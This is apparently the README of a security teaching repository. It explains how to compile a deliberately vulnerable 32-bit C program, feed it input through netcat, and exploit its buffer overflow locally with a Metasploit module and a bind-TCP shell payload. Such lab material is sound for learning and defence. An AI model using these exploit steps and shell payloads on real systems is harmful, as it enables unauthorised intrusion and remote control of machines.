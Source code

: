 # ijit
Simple buffer overflow demo, in the style of a Just-In-Time compiled (JIT) program.

Install metasploit and then check out this code.  
Softlink ijit.rb into metasploit's modules.
(Don't check out directly into modules/exploits, that will make 
msfconsole hang at startup when it sees the executable git hooks!)

```
cd
git clone https://github.com/olawlor/security
mkdir -p ~/.msf4/modules/exploits/linux/ijit
cd ~/.msf4/modules/exploits/linux/ijit
ln -s ~/security/ijit/ijit.rb .
```

Now compile and run the vulnerable program (compiled here as a 32-bit x86 program):

```
sudo apt-get install build-essential gcc gcc-multilib
cd ~/security/ijit
gcc -m32 ijit.c -g -o ./ijit32 
nc -l -p 8888 | ./ijit32
```

Leave the vulnerable program running.

In another terminal, exploit it with msfconsole:

```
msfconsole
use exploit/linux/ijit/ijit 
reload
set RHOST 127.0.0.1
set nop x86/single_byte
set payload linux/x86/shell/bind_tcp
exploit
```

If you compile a 64-bit version of that executable, the same exploit
will work with 
```
set nop x64/simple
set payload linux/x64/shell/bind_tcp
```


